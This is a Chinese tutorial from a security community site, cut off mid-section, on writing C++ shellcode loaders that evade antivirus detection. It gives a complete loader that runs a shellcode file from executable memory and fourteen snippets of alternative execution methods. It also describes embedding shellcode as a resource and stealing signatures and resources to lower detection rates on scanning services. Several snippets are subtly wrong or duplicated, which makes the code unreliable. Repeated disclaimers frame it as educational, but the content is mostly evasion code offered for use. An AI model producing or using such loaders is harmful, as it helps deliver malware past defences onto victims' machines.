



# 万字写AvBypass基础，看了你就入门了-先知社区

> **来源**: https://xz.aliyun.com/news/17074  
> **文章ID**: 17074

---

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

# 背景

## AvBypass技术简介

AvBypass技术是一种旨在绕过病毒扫描和安全软件（尤其是防病毒软件）保护的技术。它被广泛用于恶意软件开发中，以帮助恶意代码逃避安全防护系统的检测和拦截。AvBypass技术通过利用防病毒软件中的漏洞、误判和检测机制的缺陷，或者通过混淆和加密等手段来隐藏恶意软件的行为。

该技术通常会利用以下几种方法：

1. **代码混淆**：通过改变恶意代码的结构，使其在运行时不易被防病毒软件识别。例如，使用不同的编码和加密方法使文件内容看起来无害或随机。
2. **反调试技术**：通过检测系统是否正在进行调试，防止在调试过程中被发现或分析。
3. **内存注入和隐藏**：将恶意代码注入到受信任的进程中，使得防病毒软件在常规扫描过程中无法检测到这些代码。
4. **利用0day漏洞**：通过利用防病毒软件或操作系统中的未知漏洞，恶意软件可以绕过防护措施，进入目标系统。
5. **修改执行路径**：一些恶意软件能够修改操作系统的执行路径，改变自身的运行方式，从而避开常见的扫描工具和防护软件。

AvBypass技术的目标是确保恶意软件能够在目标系统上顺利运行并执行其预定功能，而不会被现有的安全措施所阻止。随着防病毒技术的不断升级，AvBypass技术也在持续演变，确保恶意软件能不断适应新的安全防护手段。

## Shellcode Loader AV Bypass技术详细介绍

**Shellcode Loader AV Bypass**是一种专门设计用来绕过防病毒软件（AV，Antivirus）检测的技术，它主要通过加载并执行shellcode的方式，避免在病毒扫描过程中被发现。Shellcode本质上是针对操作系统或应用程序漏洞的攻击代码，而Shellcode Loader则负责将这些攻击代码注入目标系统并使其执行。

这种技术通过精心构造的加载器（Loader），利用不同的技巧和方法绕过防病毒软件的检测，达到“隐形”执行恶意代码的目的。Shellcode Loader AV Bypass是网络攻击者用来实施远程代码执行（RCE）或其他类型恶意行为的一种常见手段。

### Shellcode Loader的工作原理

Shellcode Loader主要分为两个阶段：

1. **载入阶段**：

* Shellcode Loader首先在受害机器上执行。它通常以某种“无害”文件或脚本的形式存在，如文档、压缩包、合法程序等。
* 一旦执行，它会从文件或网络中获取Shellcode（恶意代码），并将其加载到内存中。

2. **执行阶段**：

* 载入后，Shellcode Loader将shellcode注入到进程的内存空间中，可能通过利用进程注入、DLL注入或直接修改内存内容等方法来实现。
* 这些恶意代码被注入并执行，通常会触发远程命令执行、数据窃取、反向连接等恶意行为。

### Shellcode Loader AV Bypass的工作技巧

Shellcode Loader AV Bypass技术利用以下几种方法来绕过防病毒软件的检测：

1. **内存直接执行**：

* 常见的Shellcode通常存储在文件中，并通过文件系统被扫描。但Shellcode Loader将恶意代码直接加载到内存中，防止了文件扫描工具的检测。
* 这种技术依赖于将Shellcode作为原始字节流传输，而不是保存为常见的恶意文件格式。

2. **加密和混淆**：

* 加密是常见的绕过技术之一，攻击者通过对Shellcode进行加密，使得防病毒软件无法识别其实际内容。
* 加密的Shellcode只有在Loader加载并解密后，才能还原为可执行代码。解密过程通常在内存中进行，避免了硬盘上的任何可疑文件。

3. **反沙箱和反调试**：

* 防病毒软件往往通过沙箱技术模拟程序运行以分析恶意行为。Shellcode Loader可以检测系统是否处于沙箱环境，并在检测到沙箱时停止执行或改变执行路径，避免被分析。
* 此外，Loader还可能使用反调试技术，检测是否有调试器在运行，防止被人工分析。

4. **利用合法进程**：

* Shellcode Loader往往会注入到常见的系统进程中，如浏览器、邮件客户端或操作系统的关键进程。这些进程通常是被信任的，且防病毒软件往往对其扫描力度较弱。
* 这种方式使得恶意代码可以“隐藏”在正常进程的背后，躲避检测。

5. **零日漏洞和特定攻击**：

* 在某些情况下，Shellcode Loader可能利用操作系统或防病毒软件本身的漏洞来绕过检测。比如，利用内核漏洞执行Shellcode，或者通过系统调用逃避沙箱。

### 反制措施

**警告**：本部分讨论的防护措施旨在帮助提高系统安全性，并避免Shellcode和其他恶意软件的滥用。请确保您的防护技术和测试在合法授权的环境中进行。如果您在进行渗透测试或安全研究时使用这些技术，请确保您已获得相应的授权，并且您的活动不会侵犯他人的合法权益或违反当地的法律法规。未经授权的入侵行为是非法的，开发者对任何违法行为不承担责任。

​

虽然Shellcode Loader AV Bypass技术非常有效，但防病毒软件厂商和安全公司也在不断开发新的反制措施来应对这一类攻击：

1. **行为分析**：

* 许多现代防病毒解决方案已不再单纯依赖于静态扫描，而是通过动态行为分析检测恶意活动。Shellcode的执行通常伴随异常行为，如进程注入、文件修改、网络通信等，行为分析可以有效发现这类异常。

2. **内存扫描**：

* 一些防病毒软件开始增强内存扫描功能，特别是对于内存中加载的恶意代码进行检测，减少了文件系统扫描的盲区。

3. **沙箱强化**：

* 为了提高对Shellcode Loader的检测能力，沙箱技术的检测力度也在持续增强，不仅仅是模拟程序执行，还包括深度分析内存操作和进程行为。

4. **混合检测**：

* 结合人工智能和机器学习的技术，能够发现复杂的Shellcode Loader和AV Bypass技术，识别潜在威胁。

# 环境

[Visual Studio 2022安装教程](https://blog.csdn.net/qq_44859843/article/details/135024973)

[VS2010](https://learn.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-2010/dd831853(v=vs.100))（VS2010比VS2022更加好用，具体的自己探索吧）

[Windows SDK](https://developer.microsoft.com/zh-cn/windows/downloads/windows-sdk/)

鄙人写loader一般只用C++，python写容易被查而且打包起来麻烦，C++就一般不会遇到这种问题

# 检测

### 1. **Any.Run**

* **网址**: <https://any.run>
* **简介**: Any.Run 是一个交互式在线沙箱，允许用户上传文件并在虚拟环境中执行这些文件。用户可以监控程序的行为，包括文件创建、网络活动、注册表修改等。这对于分析恶意软件非常有用。

### 2. **Hybrid Analysis**

* **网址**: <https://www.hybrid-analysis.com>
* **简介**: Hybrid Analysis 提供一个强大的在线恶意软件分析工具，能够对可疑文件进行动态和静态分析。它使用沙箱环境执行上传的文件，并生成详细的分析报告。适用于恶意软件研究人员和网络安全专家。

### 3. **Cuckoo Sandbox**

* **网址**: <https://cuckoosandbox.org>
* **简介**: Cuckoo Sandbox 是一个开源的自动化恶意软件分析系统，支持虚拟化环境中的动态分析。它能够执行和分析各种操作系统中的恶意软件，包括 Windows 和 Linux。虽然主要是本地部署，但也有一些提供Cuckoo服务的在线平台。

### 4. **VirusTotal**

* **网址**: <https://www.virustotal.com>
* **简介**: VirusTotal 是一个广泛使用的文件扫描服务，支持对上传文件进行多个防病毒引擎的扫描。不过，它也提供了类似沙箱的功能，可以检测文件是否含有恶意代码。对于简单的静态分析非常有帮助。

### 5. **Joe Sandbox Cloud**

* **网址**: <https://www.joesandbox.com>
* **简介**: Joe Sandbox 提供强大的动态和静态分析功能，支持多种操作系统和文件格式。它可以分析恶意软件的行为，并生成详细的报告，适合用于恶意软件分析和安全研究。

### 6. **ReversingLabs**

* **网址**: <https://www.reversinglabs.com>
* **简介**: ReversingLabs 提供的沙箱服务主要针对恶意软件分析和威胁情报。它能够实时检测恶意软件活动，并为用户提供详细的动态和静态分析报告。

​

ps.一般都用个VT个微步云就够了

# shellcode

**警告**：Shellcode是用于绕过安全防护、执行未授权操作的恶意代码。虽然其在安全研究和漏洞测试中具有应用价值，但滥用Shellcode技术将严重危害系统安全并可能构成违法行为。请务必在合法授权的环境中进行测试，避免用于任何恶意行为。开发者不对任何因滥用Shellcode导致的法律后果或安全事件负责。

## Shellcode简介

**Shellcode** 是一种小型的代码片段，通常由黑客或攻击者在利用漏洞时插入到目标系统中，用于执行恶意操作。它的名字源自其最初的设计目的：提供对系统的命令行访问（即“shell”），从而使攻击者能够远程控制或执行命令。然而，随着技术的发展，shellcode 的用途也变得更加多样化，不仅限于简单的命令行访问。

### Shellcode的主要特点

1. **小巧精悍**：Shellcode 通常被设计为非常小的代码片段，通常几十到几百字节。这是因为它需要嵌入在漏洞利用中，而漏洞的利用位置通常有字节大小的限制。
2. **操作系统相关性**：不同操作系统的 Shellcode 实现有所不同。Windows、Linux、macOS 等操作系统的内存布局、系统调用接口和安全机制都有所不同，因此 Shellcode 的设计也需要针对不同的操作系统进行特定定制。
3. **内存注入**：Shellcode 常常通过某种形式的内存注入（例如缓冲区溢出）被传入到目标程序的内存中，然后执行。执行后，Shellcode 通常会尝试获取系统权限，控制目标系统或执行其他恶意操作。

### Shellcode的常见用途

1. **远程命令执行**：

* 通过 Shellcode，攻击者可以绕过防火墙或安全措施，获得对受害系统的远程命令行访问。

2. **反向连接（Reverse Shell）**：

* 在许多攻击中，Shellcode 会开启一个反向连接，使攻击者能够通过网络连接到受害机器，从而进行更复杂的操作，如数据窃取、勒索等。

3. **提权（Privilege Escalation）**：

* 如果攻击者能够利用某个系统漏洞插入 Shellcode，Shellcode 可能会试图提升权限，获取管理员或超级用户的权限。

4. **利用漏洞传播**：

* Shellcode 还可用于利用系统或应用程序的漏洞，自动传播到其他受害计算机或网络节点。

5. **破坏数据**：

* Shellcode 还可能包含破坏数据或篡改系统设置的指令。例如，它可能删除文件、修改注册表项或改变系统配置。

### Shellcode的种类

1. **经典 Shellcode**：

* 这种 Shellcode 通常用于启动一个 shell（命令行界面），为攻击者提供对目标系统的完全控制。

2. **反向 Shellcode（Reverse Shell）**：

* 反向 Shellcode 会使受害机器向攻击者指定的服务器发起连接，建立反向 shell 连接，允许攻击者远程执行命令。

3. **Bind Shellcode**：

* 与反向 Shellcode 相反，Bind Shellcode 会使目标机器在某个端口上监听来自攻击者的连接请求，从而实现控制。

4. **Exec Shellcode**：

* Exec 类型的 Shellcode 执行特定的命令或程序，而不仅仅是启动一个 shell。

5. **加密/压缩 Shellcode**：

* 由于防病毒软件和入侵检测系统的存在，攻击者通常会使用加密和压缩技术来隐藏其 Shellcode，以绕过检测机制。解密后的 Shellcode 可能会在内存中解压并执行。

### Shellcode的实现技巧

1. **精简代码**：

* 由于 Shellcode 大多需要嵌入漏洞利用代码中，开发者必须让代码非常紧凑。优化是必不可少的，许多恶意代码设计者通过精简字节、避免冗余操作来减小 Shellcode 的体积。

2. **内存执行**：

* 现代操作系统中，防止可执行文件从某些内存区域（如数据段）执行的安全措施（如 DEP）使得直接执行文件变得困难。因此，Shellcode 往往会利用内存中的漏洞直接执行而非存储为普通文件。

3. **反调试和反沙箱**：

* 为了避免 Shellcode 被调试器或者沙箱环境检测，攻击者可能会在 Shellcode 中添加反调试或反沙箱检测代码。通过检测程序是否在调试器下运行或是否在虚拟机中运行，Shellcode 可以决定是否继续执行。

4. **多种加载方式**：

* 除了经典的通过缓冲区溢出来加载外，Shellcode 还可以通过其他途径被加载到目标进程的内存中，比如 DLL 注入、文件格式劫持等方式。

### 防护与检测

1. **行为分析**：

* 许多现代安全防护系统（如防病毒软件、入侵检测系统）已开始采用基于行为的检测技术，分析程序的运行时行为而不是仅依赖于签名检测。这可以有效检测到通过 Shellcode 执行的恶意行为。

2. **DEP（数据执行保护）**：

* 现代操作系统使用 DEP 来防止在数据段执行代码。对于常见的 Shellcode 来说，它会试图绕过这种保护，通过不同的内存操作（如使用堆栈和堆区）来实现。

3. **ASLR（地址空间布局随机化）**：

* ASLR 是另一种保护机制，它会随机化进程地址空间的布局，使攻击者难以预测 Shellcode 的精确位置。虽然这增加了攻击的难度，但并非不可绕过。

4. **沙箱技术**：

* 沙箱环境用于隔离并分析恶意代码。通过监控 Shellcode 的执行，沙箱能够捕捉到异常行为并及时报告。

# 第一步，写个helloword

为什么要写helloword呢，这个地方有说法，这可以很好的帮你检查天时地利(手动滑稽)我来写一个helloword传沙箱看看效果：

```
#include <iostream>  

int main() {
    std::cout << "Hello, World!" << std::endl;  
    return 0;  
}
```



是的如你所见，就算是个简单的helloword传VT都不是0/xx，所以当你有时候VT不是0的时候不妨放下电脑喝个咖啡，这不是你的问题~

其次，写helloword的另外一个用途就是检测是真查还是假查，以某数字为例

某数字有这样一个规则，假设你的环境是VS2022，并且一个项目多次报毒，那么这个项目短时间无论你写什么都是报VT，这就是查PE头，这个数字软件在欺骗你，所以helloword常备，项目要常换

# 第二步，加载器入门，简单内存加载

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

**警告**：以下代码涉及直接在内存中执行Shellcode，这种操作具有潜在的安全风险。请仅在受控、合法的环境中执行此代码，避免将其用于未经授权的测试或攻击行为。在使用时，请确保您的测试环境没有影响到其他系统的安全。

​

```
int main() {
    // 打开二进制文件 1.bin
    std::ifstream file("1.bin", std::ios::binary);
    if (!file) {
        std::cerr << "无法打开 1.bin 文件" << std::endl;
        return -1;
    }

    // 获取文件大小
    file.seekg(0, std::ios::end);
    size_t fileSize = file.tellg();
    file.seekg(0, std::ios::beg);

    // 读取文件内容到缓冲区
    char* shellcode = new char[fileSize];
    file.read(shellcode, fileSize);
    file.close();

    // 分配可执行内存
    void* execMemory = VirtualAlloc(0, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (execMemory == NULL) {
        std::cerr << "内存分配失败" << std::endl;
        delete[] shellcode;
        return -1;
    }

    // 将 shellcode 写入分配的内存
    memcpy(execMemory, shellcode, fileSize);
    delete[] shellcode;

    // 执行 shellcode
    typedef void (*ShellcodeFunc)();
    ShellcodeFunc executeShellcode = (ShellcodeFunc)execMemory;
    executeShellcode(); // 调用 shellcode

    return 0;
}
```

### 代码解释：

1. **打开并读取** `1.bin` **文件**：

* 使用 `std::ifstream` 打开文件 `1.bin`，并将文件内容读取到缓冲区 `shellcode` 中。

2. **分配可执行内存**：

* 使用 `VirtualAlloc` 为 shellcode 分配内存空间，并且设置为可执行（`PAGE_EXECUTE_READWRITE`）。

3. **将 shellcode 写入内存**：

* 将读取到的 shellcode 内容复制到分配的内存区域。

4. **执行 shellcode**：

* 定义一个函数指针类型 `ShellcodeFunc`，并将分配的内存地址转换为该类型的函数指针，然后调用它来执行 shellcode。

### 编译与运行：

1. 先创建一个 `1.bin` 文件，里面包含你要执行的二进制 shellcode（可以通过编译 C/C++ 程序或下载一个示例的二进制文件）。
2. 使用 C++ 编译器（如 `g++`）编译程序，并运行它。

### 安全警告：

* 在进行 shellcode 注入和执行的操作时，请务必确保你在受控和合法的环境中进行，避免危害系统安全和数据完整性。
* 本代码仅用于教育和研究目的，切勿用于恶意目的。



只有5个红色的原因应该是调用函数少，功能少，而且是分离加载，shellcode没有落地没有检测到，如果改远程加载这个起码得彪20

# 第三步，改进（执行函数）

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

### 1. **通过** `VirtualAlloc` **分配内存并执行**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
typedef void (*ShellcodeFunc)();
ShellcodeFunc func = (ShellcodeFunc)execMem;
func();
```

### 2. **通过** `CreateThread` **创建新线程**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
CreateThread(0, 0, (LPTHREAD_START_ROUTINE)execMem, 0, 0, 0);
```

### 3. **通过** `SetWindowsHookEx` **设置钩子**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
SetWindowsHookEx(WH_KEYBOARD, (HOOKPROC)execMem, 0, GetCurrentThreadId());
```

### 4. **通过** `GetProcAddress` **和** `LoadLibrary` **调用远程代码**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
HMODULE hModule = LoadLibrary("kernel32.dll");
GetProcAddress(hModule, "GetProcAddress");
typedef void (*ShellcodeFunc)();
ShellcodeFunc func = (ShellcodeFunc)execMem;
func();
```

### 5. **通过** `jmp` **跳转到 Shellcode 地址**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
__asm {
    jmp execMem
}
```

### 6. **通过** `NtCreateThreadEx` **创建线程**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
pNtCreateThreadEx NtCreateThread = (pNtCreateThreadEx)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
HANDLE hThread;
NtCreateThread(&hThread, THREAD_EXECUTE, 0, GetCurrentProcess(), execMem, 0, 0, 0, 0, 0, 0);
```

### 7. **通过** `CreateProcess` **和** `CreateRemoteThread`

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcess(0, "explorer.exe", 0, 0, FALSE, CREATE_NEW_PROCESS_GROUP, 0, 0, &si, &pi);
CreateRemoteThread(pi.hProcess, 0, 0, (LPTHREAD_START_ROUTINE)execMem, 0, 0, 0);
```

### 8. **通过** `Memory Mapped Files` **加载并执行 Shellcode**

```
HANDLE hFile = CreateFileMapping(INVALID_HANDLE_VALUE, 0, PAGE_EXECUTE_READWRITE, 0, size, 0);
void* execMem = MapViewOfFile(hFile, FILE_MAP_ALL_ACCESS, 0, 0, size);
memcpy(execMem, shellcode, size);
typedef void (*ShellcodeFunc)();
ShellcodeFunc func = (ShellcodeFunc)execMem;
func();
UnmapViewOfFile(execMem);
CloseHandle(hFile);
```

### 9. **通过** `std::function` **调用 Shellcode**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
std::function<void()> func = [execMem]() {
    typedef void (*ShellcodeFunc)();
    ShellcodeFunc func = (ShellcodeFunc)execMem;
    func();
};
func();
```

### 10. **通过** `Invoke` **内联汇编执行**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
__asm {
    jmp execMem
}
```

### 11. **通过** `CallWindowProc` **调用**

```
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam) {
    void (*func)() = (void(*)())lParam;
    func();
    return 0;
}

void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);
SetWindowsHookEx(WH_KEYBOARD, HookProc, 0, GetCurrentThreadId());
```

### 12. **通过** `RtlCreateUserThread` **创建用户线程**

```
typedef NTSTATUS(WINAPI* pRtlCreateUserThread)(
    HANDLE ProcessHandle,
    PVOID ObjectAttributes,
    BOOL CreateSuspended,
    ULONG StackZeroBits,
    ULONG SizeOfStackCommit,
    ULONG SizeOfStackReserve,
    PVOID StartAddress,
    PVOID StartParameter,
    PHANDLE ThreadHandle,
    PVOID ClientId
);

void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);

HMODULE ntdll = GetModuleHandle("ntdll.dll");
pRtlCreateUserThread RtlCreateThread = (pRtlCreateUserThread)GetProcAddress(ntdll, "RtlCreateUserThread");

HANDLE hThread;
RtlCreateThread(GetCurrentProcess(), 0, FALSE, 0, 0, 0, execMem, 0, &hThread, 0);
```

### 13. **强改入口点指针加载**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);

// 获取原程序入口点
PBYTE entryPoint = (PBYTE)GetModuleHandle(NULL);
entryPoint = (PBYTE)execMem;

// 强改入口点指针，使其指向新的 shellcode
SetThreadContext(GetCurrentThread(), &entryPoint);
```

### 14. **内联汇编执行**

```
void* execMem = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMem, shellcode, size);

// 使用内联汇编直接跳转到 shellcode 执行
__asm {
    jmp execMem
}
```

# 第四步，继续改进

我只说几种思路，自己去想吧

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

## 本地加载（资源法）：

好处就是分离，单查loader毒率低，坏处就是多文件，解决思路如下：

### 步骤 1: 创建资源文件

1. 打开 Visual Studio。
2. 创建一个新的 C++ 项目（例如，选择 "Win32 Console Application"）。
3. 在 **解决方案资源管理器** 中，右键单击项目名称，选择 **添加** -> **新建项**。
4. 在弹出的对话框中，选择 **资源文件 (.rc)**，并命名为 `Shellcode.rc`（或任何其他名称）。
5. 选择添加一个新的 **自定义资源**，例如 **二进制数据**。

### 步骤 2: 将 Shellcode 添加为资源

1. 打开刚创建的 `Shellcode.rc` 文件。
2. 在资源文件中添加你的 Shellcode 数据。你可以直接把 Shellcode 字节流作为资源添加，例如：

```
IDR_SHELLCODE BINARY "path_to_your_safeshellcode.bin"
```

这里的 `IDR_SHELLCODE` 是资源标识符，`path_to_your_shellcode.bin` 是存放 Shellcode 的文件路径。

### 步骤 3: 配置资源读取代码

1. 打开项目中的 `main.cpp` 或其他源文件。
2. 添加必要的头文件，来加载资源并执行其中的 Shellcode：

```
#pragma comment(linker, "/ENTRY:mainCRTStartup")  // 设置程序入口点

// 资源标识符，用于引用 Shellcode 资源
#define IDR_SHELLCODE 101  // 根据 rc 文件中的 IDR_SHELLCODE 定义调整

......

int main() {
    // 获取资源大小和数据
    HRSRC hRes = FindResource(NULL, MAKEINTRESOURCE(IDR_SHELLCODE), "BINARY");
    if (hRes == NULL) {
        std::cerr << "找不到 Shellcode 资源!" << std::endl;
        return -1;
    }

    DWORD dwSize = SizeofResource(NULL, hRes);
    HGLOBAL hGlobal = LoadResource(NULL, hRes);
    if (hGlobal == NULL) {
        std::cerr << "无法加载资源!" << std::endl;
        return -1;
    }

    // 获取资源数据
    const char* shellcode = (const char*)LockResource(hGlobal);
.....
```

### 代码解释：

* `FindResource`：查找指定资源。
* `SizeofResource`：返回指定资源的大小。
* `LoadResource`：加载资源数据到内存。
* `LockResource`：将资源数据锁定到内存中，返回指向资源数据的指针。
* `VirtualAlloc`：在可执行内存中分配空间。
* `memcpy`：将资源数据复制到内存中。
* `ShellcodeFunc`：将内存中的数据转换为函数指针，并调用它执行 Shellcode。

### 步骤 4: 配置和构建

1. 确保你的 `Shellcode.bin` 文件已经正确添加到资源文件中。
2. 在 **解决方案资源管理器** 中，右键点击 **资源文件**，选择 **生成**，确保资源已正确嵌入到可执行文件中。
3. 构建项目并运行。

### 步骤 5: 测试

* 在运行时，程序将从资源中提取 Shellcode 字节流并将其加载到内存中执行。
* 你可以通过 `1.bin` 或其他 Shellcode 文件替换 `Shellcode.bin`，并在 `rc` 文件中更新路径。

### 注意事项：

1. **调试和测试**：务必在**受控、合法**的环境下进行 Shellcode 测试。执行恶意 Shellcode 可能会破坏系统或造成安全风险。

## 远程加载（换shellcode法）:

好处就是单文件，坏处就是文件附shellcode，毒率高

解决方法如下

### 方法一：（平时打MISC多的应该擅长点）

把shellcode加到一张图片后面，执行的时候提取再执行

### 方法二：（平时打Crypt多的应该擅长点）

给shellcode加密，什么圆锥曲线啊自己看着玩吧

# 第五步，封装

本文章仅供学习、研究、教育或合法用途。开发者明确声明其无意将该代码用于任何违法、犯罪或违反道德规范的行为。任何个人或组织在使用本代码时，需自行确保其行为符合所在国家或地区的法律法规。

开发者对任何因直接或间接使用该代码而导致的法律责任、经济损失或其他后果概不负责。使用者需自行承担因使用本代码产生的全部风险和责任。请勿将本代码用于任何违反法律、侵犯他人权益或破坏公共秩序的活动。

## 1.利用Resource Hacker盗取资源

教程网上有我就不水字数了

[Resource Hacker](https://www.oschina.net/p/resourcehacker?hmsr=aladdin1e1)

[download](https://resource-hacker.en.softonic.com/download)

## 2.利用Sign-Sacker盗取签名

[Sign-Sacker](https://github.com/langsasec/Sign-Sacker)

同样的，教程网上有，不赘余

## 3.控制台项目改窗体项目

鄙人也不知道为什么，凭借经验，窗体项目ms效果要明显强与控制台项目，但是转换要注意几个点

### 步骤 1: 修改项目类型

1. **创建一个新项目**：

* 打开 Visual Studio，选择 **创建新项目**。
* 选择 **Windows 应用程序**（Win32 应用程序），然后点击 **下一步**。
* 在项目模板中选择 **Windows 桌面向导**，而不是 **控制台应用程序**。
* 给项目起个名字，并点击 **创建**。

2. **修改原项目的项目属性**：

* 打开您的控制台项目。
* 在 **解决方案资源管理器** 中右键点击您的项目并选择 **属性**。
* 在 **配置属性** -> **常规** 下，修改 **应用程序类型** 为 **Windows 应用程序**，而不是 **控制台应用程序**。

### 步骤 2: 修改入口点

#### 控制台项目中的 `main` 函数

控制台应用程序通常使用 `main()` 作为入口点，而在 Windows 窗体应用程序中，入口点通常是 `WinMain()`。

1. **修改入口点函数**：

* 在控制台项目中，入口点通常是 `int main()`。我们需要将它修改为 `int WINAPI WinMain()`，因为 Windows 窗体应用程序默认使用这个入口点。
* `WinMain()` 是 Windows 程序的标准入口，它有一个不同于 `main()` 的签名。`WinMain` 函数接受与应用程序的窗口和消息处理有关的参数。

**从** `main` **到** `WinMain` **的转换示例**：

**控制台项目的** `main` **函数**（示例）：

```
int main() {
    std::cout << "Hello, World!" << std::endl;

```

**转换为** `WinMain` **的** `Win32` **窗体程序**：

```
// 窗口过程函数，处理窗口消息
